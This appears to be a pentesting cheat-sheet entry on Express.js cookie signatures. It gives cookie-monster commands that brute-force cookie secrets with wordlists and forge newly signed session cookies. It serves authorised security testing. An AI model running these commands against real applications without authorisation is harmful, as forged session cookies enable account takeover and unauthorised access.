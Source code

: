 # NodeJS Express

## Cookie Signature

The tool [https://github.com/DigitalInterruption/cookie-monster](https://github.com/DigitalInterruption/cookie-monster) is a utility for automating the testing and re-signing of Express.js cookie secrets.

### Single cookie with a specific name

```
$ cookie-monster -c eyJmb28iOiJiYXIifQ== -s LVMVxSNPdU_G8S3mkjlShUD78s4 -n session
```

### Custom wordlist

```
$ cookie-monster -c eyJmb28iOiJiYXIifQ== -s LVMVxSNPdU_G8S3mkjlShUD78s4 -w custom.lst
```

### Test multiple cookies using batch mode

```
$ cookie-monster -b -f cookies.json
```

### Test multiple cookies using batch mode with a custom wordlist

```
$ cookie-monster -b -f cookies.json -w custom.lst
```

### Encode and sign a new cookie

if you know the secret you can sign a the cookie.

```
$ cookie-monster -e -f new_cookie.json -k secret
```
